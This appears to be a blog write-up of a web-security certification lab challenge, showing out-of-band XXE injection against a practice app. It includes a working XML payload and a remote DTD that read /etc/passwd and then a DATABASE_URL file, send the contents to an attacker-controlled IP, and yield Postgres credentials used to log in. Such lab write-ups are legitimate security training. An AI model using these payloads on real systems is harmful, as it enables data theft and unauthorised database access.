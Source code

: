 ```yaml
---
title: Challenge 12:When things aren't working, go out of band
date: 2024-05-15 05:04:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     ## TAG names should always be lowercase
render_with_liquid: false
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


## Challenge/Task

1. XXE INJECTION

**Proof-of-Concept (POC):**

There is a field “tags” where the system can query the available tags that has been created before on the website

![POC-otb](/img/cwae/wta1.png){: w="400" h="400" }{: .normal }

This is how the server response when we are calling the /tags endpoint. It will listed all tags that are available. 

![POC-otb](/img/cwae/wta2.png){: w="400" h="400" }{: .normal }

With the same technique XXE before, I try to change the content type of Json to XML format and the server seems accept the format too. You can see how the <tag> there. So maybe we can try XXE attack too ?

![POC-otb](/img/cwae/wta3.png){: w="400" h="400" }{: .normal }

However, when I send the same payload as before for XXE, the server did not respond anything. So, we cannot prove if this is vulnerable or not. We need to use Out of Band Technique.

![POC-otb](/img/cwae/wta4.png){: w="400" h="400" }{: .normal }

Out-of-band XXE (XML External Entity) injection is a technique used to exploit XML processors that support external entities, allowing an attacker to extract data from a server without receiving the actual response in-band with the HTTP response.
I will send malicious XML data to the server, typically containing references to an external entity defined in a Document Type Definition (DTD) file. This DTD file is hosted on our VPS server When the server processes the XML input, it resolves the external entity reference, causing the server to make a request to my controlled server to retrieve the entity content.

Payload sends to server
```jsx
<!DOCTYPE data [<!ENTITY % init SYSTEM "file:///etc/passwd"> 
  <!ENTITY % dtd SYSTEM "http://143.198.205.200:9003/d.dtd"> %dtd;]> 
<data>&send;</data>
```

dtd File created in remote server
```jsx
<!ENTITY % all "<!ENTITY send SYSTEM 'http://143.198.205.200:8090/?collect=%init;'> "> %all;
```
![POC-otb](/img/cwae/wta5.png){: w="400" h="400" }{: .normal }

I start to send the payload to the server. We can see the left side showing us the d.dtd is downloaded by the server. However, the /etc/passwd is not showing inside our listeners. 

![POC-otb](/img/cwae/wta6.png){: w="400" h="400" }{: .normal }

We must step back and see what the problem is here. The dtd file is already correct but somehow no result. Something error at the payload send to the server I guess. Previous challenges, we already performed port scanning to the target. We saw a port that is unknown. Further checking, it is a Postgres DB. So, we must change our payload.

![POC-otb](/img/cwae/wta7.png){: w="400" h="400" }{: .normal }


In PostgreSQL, /tmp/env/DATABASE_URL is likely a reference to a temporary file path where an environment variable called DATABASE_URL might be stored. So, we change the /etc/passwd to /tmp/env/DATABASE_URL and send again the request. You can see, our listener starting to collect the response from server. If you noticed, the line there refer to Postgres username and password. We can try it.. 

![POC-otb](/img/cwae/wta8.png){: w="400" h="400" }{: .normal }

We can now successfully login to the Postgres using the username and password.

![POC-otb](/img/cwae/wta9.png){: w="400" h="400" }{: .normal }
